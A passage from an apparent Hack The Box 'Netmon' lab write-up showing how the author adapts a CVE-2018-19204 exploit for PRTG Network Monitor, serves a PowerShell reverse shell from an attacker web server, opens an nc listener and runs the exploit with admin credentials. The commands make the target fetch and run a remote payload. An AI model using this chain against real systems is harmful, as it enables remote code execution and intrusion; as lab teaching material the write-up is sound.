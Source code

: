 The first change we should make is to change the ID of the advanced HTTP sensor
on line 44. This controls which device the sensor is added to, and a value of 40
corresponds to the local probe device. It might not be essential to do this, but
it can't hurt to have the two sensors created on the same monitoring device.

Next we need to use the `fileurl` command line argument when specifying the URL
the HTTP sensor should call. Currently this argument isn't used, and
`http://www.sensepost.com` is used instead on line 49.

Finally, we need to specify the filename of the reverse shell we want to create.
Let's use a PowerShell payload, like the one
[here](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1).
We need to tweak this file to call out to our IP as the attacker, but this is
straightforward. Saving this file as `reverse.ps1` on our machine, we need to
tweak the filename on lines 50 and 65 of the CVE code.

My version of the CVE exploit code can be found
[here](https://gist.github.com/mspraggs/c481dfbc7e2a6ab8ad3c13e1ec94576e).

We now have everything we need to run the exploit. First, we spin up a webserver
on our attacking machine so that we can serve up the reverse shell to the
target:

```shell-session
$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Next we need to open a port on our attacking machine to receive the connection
for the reverse shell:

```shell-session
$ nc -nlvp 1337
Listening on 0.0.0.0 1337
```

Now we need to run the exploit itself. We need four things: the URL of the
target, the URL of the reverse shell payload, the username of our admin account
and the corresponding password. The URL of the target is simply
`http://netmon.htb`, whilst the URL of the payload is going to be the IP of our
attack machine along with the filename of our reverse shell. If our IP is
`10.10.14.3`, this means our payload URL is
`http://10.10.14.3:8000/reverse.ps1`. With this info in hand, we can run the
exploit:

```shell-session
$ python cve-2018-19204.py -u prtgadmin -p PrTg@dmin2019 http://netmon.htb 10.10.14.3:8000/reverse.ps1
[+] Stage 1 - Adding HTTP Advanced Sensor
[+] Stage 2 - Adding EXE/Script Sensor
[+] Exploit completed, 60 seconds for execution.
[+] Sensors need manual cleanup!
$
```

Looking at the PRTG devices page, to the right of the device list for the Local
Probe, we can see two devices created by our exploit:
